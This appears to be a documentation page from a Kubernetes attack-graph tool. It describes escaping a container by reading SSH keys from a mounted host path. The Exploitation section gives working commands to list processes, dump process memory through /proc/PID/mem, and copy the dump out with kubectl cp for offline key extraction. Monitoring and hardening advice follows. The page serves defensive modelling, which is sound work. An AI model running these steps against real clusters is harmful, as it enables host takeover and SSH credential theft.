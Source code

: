 ```yaml
---
title: EXPLOIT_HOST_READ
---
```


<!--
id: EXPLOIT_HOST_READ
name: "Read file from sensitive host mount"
mitreAttackTechnique: T1611 - Escape to host
mitreAttackTactic: TA0004 - Privilege escalation
-->

# EXPLOIT_HOST_READ

| Source                                    | Destination                           | MITRE                            |
| ----------------------------------------- | ------------------------------------- |----------------------------------|
| [Container](../entities/container.md) | [Node](../entities/node.md) | [Escape to Host, T1611](https://attack.mitre.org/techniques/T1611/) |

Exploit an arbitrary read from a sensitive host path mounted into the container to gain execution on the host.

## Details

If a sensitive host directory is exposed to a container, even as readonly, it can enable an escape to the host. The only example currently modelled is exposing a host volume that contains SSH keys (and assumes that SSH is enabled on the node for SRE activities). In this scenario an attacker can steal the SSH keys from the mounted volume, then SSH directly into the node.

## Prerequisites

Execution within a container with a sensitive host path mounted as readonly.

See the [example pod spec](https://github.com/DataDog/KubeHound/tree/main/test/setuptest-cluster/attacks/EXPLOIT_HOST_READ_TRAVERSE.yaml).

## Checks

Check for interesting mounted volumes in the container as decribed in [VOLUME_DISCOVER](./VOLUME_DISCOVER.md#checks). Specifically:

+ `/etc`, `/root`, `/home`, `/proc` for SSH key material. This enables accessing the node via SSH (which is typically enabled for management functionality)

## Exploitation

Consider the case of an exposed `/proc` mount. We can attempt to steal SSH keys directly from the process memory of the SSH agent. First identify the target process by dumping all process info via:

```bash
find /proc -maxdepth 2 -wholename '/proc/[0-9]*/status'  | xargs cat > process-list.txt
```

Once the target PID has been retrieved, dump the process memory by reading `/proc/${PID}/mem`:

```bash
procdump()
( 
    cat /proc/$1/maps | grep -Fv ".so" | grep " 0 " | awk '{print $1}' | ( IFS="-"
    while read a b; do
        dd if=/proc/$1/mem bs=$( getconf PAGESIZE ) iflag=skip_bytes,count_bytes \
           skip=$(( 0x$a )) count=$(( 0x$b - 0x$a )) of="$1_mem_$a.bin"
    done )
)
```

then exfiltrate the memory dump to an attacker machine using `kubectl cp` (or any other mechanism):

```bash
kubectl cp ${NAMESPACE}/${PODNAME}:/mem.bin ./mem.bin
```

Finally extract any SSH keys offline from memory using the [ssh-grab](https://github.com/NetSPI/sshkey-grab/blob/master/parse_mem.py) python script.

### Monitoring

+ Monitor for access to sensitive host files (e.g SSH keys) originating from container processes

### Implement security policies

Use a pod security policy or admission controller to prevent or limit the creation of pods with a `hostPath` mount of `/` or other sensitive locations.

### Least Privilege

Avoid running containers as the `root` user. Enforce running as an unprivileged user account using the `runAsNonRoot` setting inside `securityContext` (or explicitly setting `runAsUser` to an unprivileged user). Additionally, ensure that `allowPrivilegeEscalation: false` is set in `securityContext` to prevent a container running as an unprivileged user from being able to escalate to running as the `root` user.

## Calculation

+ [ExploitHostRead](https://github.com/DataDog/KubeHound/tree/main/pkg/kubehound/graph/edge/exploit_host_read.go)

## References:

+ [Stealing SSH Keys From Memory](https://www.netspi.com/blog/technical/network-penetration-testing/stealing-unencrypted-ssh-agent-keys-from-memory/)
+ [Dump Linux Process Memory to File](https://serverfault.com/questions/173999/dump-a-linux-processs-memory-to-file)
